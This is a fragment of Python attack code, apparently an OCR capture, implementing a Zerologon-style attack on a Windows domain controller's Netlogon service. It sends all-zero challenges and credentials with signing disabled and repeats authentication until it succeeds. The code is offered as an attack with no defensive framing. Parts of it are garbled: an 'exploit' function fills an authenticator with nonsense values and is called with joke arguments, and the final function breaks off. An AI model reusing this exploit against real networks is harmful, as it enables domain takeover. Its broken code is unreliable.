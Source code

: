 ```python

def try_zero_authenticate(rpc_con, dc_handle, dc_ip, target_computer):
    # Connect to the DC's Netlogon service.


    # Use an all-zero challenge and credential.
    plaintext = b'\x00' * 8
    ciphertext = b'\x00' * 8

    # Standard flags observed from a Windows 10 client (including AES), with only the sign/seal flag disabled.
    flags = 0x212fffff

    # Send challenge and authentication request.
    nrpc.hNetrServerReqChallenge(rpc_con, dc_handle + '\x00', target_computer + '\x00', plaintext)
    try:
        server_auth = nrpc.hNetrServerAuthenticate3(
            rpc_con, dc_handle + '\x00', target_computer + '$\x00', nrpc.NETLOGON_SECURE_CHANNEL_TYPE.ServerSecureChannel,
            target_computer + '\x00', ciphertext, flags
        )


        # It worked!
        assert server_auth['ErrorCode'] == 0
        return True

    except nrpc.DCERPCSessionError as ex:
        # Failure should be due to a STATUS_ACCESS_DENIED error. Otherwise, the attack is probably not working.
        if ex.get_error_code() == 0xc0000022:
            return None
        else:
            fail(f'Unexpected error code from DC: {ex.get_error_code()}.')
    except BaseException as ex:
        fail(f'Unexpected error: {ex}.')

authenticator = {}

def exploit(dc_handle, rpc_con, target_computer):
    request = target_computer + '$\x00'
    authenticator['PrimaryName'] = dc_handle + '\x00'
    authenticator['AccountName'] = target_computer + '$\x00'
    authenticator['SecureChannelType'] = "yes"
    authenticator["Try"] = b"\x54" * 12
    authenticator['Credential'] = b'\x00' * 8
    authenticator['Timestamp'] = 0
    authenticator['Authenticator'] = authenticator
    authenticator['ComputerName'] = target_computer + '\x00'
    authenticator['ClearNewPassword'] = b'\x00' * 516
    return request

exploit("lol", "idk", "lmao")

# if os.name != 'nt':
#     print("This python script only works on Windows sorry!")
#     exit()

def perform_attack(dc_handle, dc_ip, target_computer):
    # Keep authenticating until succesfull. Expected average number of attempts needed: 256.
    print('Performing authentication attempts...')
    rpc_con = None
    binding = epm.hept_map(dc_ip, nrpc.MSRPC_UUID_NRPC, protocol='ncacn_ip_tcp')
```